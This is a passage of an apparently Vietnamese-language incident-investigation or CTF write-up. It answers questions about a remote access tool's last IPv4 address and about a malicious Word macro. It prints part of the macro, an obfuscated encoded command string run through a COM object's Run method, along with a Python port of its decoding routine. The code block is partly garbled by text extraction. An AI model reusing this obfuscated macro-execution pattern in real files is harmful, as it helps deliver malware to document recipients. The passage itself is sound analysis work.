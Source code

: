 ##### Từ đầu ra của câu hỏi số 4 ta cũng dễ dàng xác định được ID
![image](https://hackmd.io/_uploads/ryaTqLiF1g.png)

#### 8. What is the IPv4 address the actor last connected to the system with the remote access tool?
![image](https://hackmd.io/_uploads/ry7Rjwjt1g.png)


#### 9. What Public Function in the word document returns the full command string that is eventually run on the system?
##### Phân tích file macro được đính kèm trong email
<details><summary>
        Source
    </summary></details>

##### Ta tiến hành sửa mã lại để dễ đọc hơn

<details><summary>
        Mã sau khi sửa
    </summary></details>

##### Tuy có thể dễ đọc hơn nhưng các payload thực thi chính đã bị encode, nhưng ta cũng có thể xem được các hàm nào được thực thi chính.
```
EchoValue comObject.Run(GetRunCommand, 0)
Public Function GetRunCommand() As String
    GetRunCommand = PrependPrefix( _
        DecodeData sang python ta sẽ được hàm sau:
```
    def decode_data(input_str, step_val, offset_val):
    length = len(input_str)
    if length == 0:
        return ""
    step = step_val % length
    index = offset_val % length
    target_length = length - 9  
    decoded = []
    for _ in range(target_length):
        decoded.append(input_str[index])
        index = (index + step) % length
    return ''.join(decoded)

```("AHABJACABZAEuBbYEoQRMA9AAwABQAQABwAHABIAG3BIECsAcMAuAbEAlwAAABAAGABdAHpAIADsBb4HuQU4ApgAsABAAGABQAHABYAHUBIUH0AJwAvg1EAyAAIABQAHABbAHvBNAG0BLwH3AZ4AvQAwAAwAEAAaAGABMAHlBcUDpgcYApgAQABwAkABAAHABZACWBZUG0QaYCvgZ4AuQAMABQACAAMAHgAbAHyBK8H0QVkAggAIABQAHAAAAGABbAHiAZkGiAb4Asw") & _
        "UAjAAUABwAHAAVADBBdgDiBd4GuQZUAFwA0ABQAHABZADABYAG1BIwG4QYwAwAAUALAAQAAAAFABLAHlBLUHfANwEwARQAhQA0ABgAGABcAChALAChBZIHTgbUAlgA8AAwAvABwACABUAGlBcEClAOgAvgToApwAQABAAGABIAFlALMDkBIAGuwbkA2gAMABAACAAZAFABYAGlBZgCuQUgA0gAYAQwAIABQA"), 353, 469)
End Function
```
##### Vì nó đã được sửa tên nên ta lấy tên cũ là UsoJar
